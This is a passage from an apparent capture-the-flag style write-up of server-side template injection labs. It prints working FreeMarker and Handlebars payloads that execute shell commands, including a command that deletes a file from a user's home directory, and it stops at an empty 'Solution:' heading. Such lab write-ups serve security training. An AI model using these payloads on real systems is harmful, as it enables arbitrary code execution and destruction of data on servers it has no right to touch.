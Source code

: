 [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker)

```
${"freemarker.template.utility.Execute"?new()("id")}
```

**Solution:**

```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

### Lab: Server-side template injection in an unknown language with a documented exploit

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

`/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`

`/?message={{ - It gives error.`

`/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js`

_**Handlebars NodeJS**_

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

**Solution:**
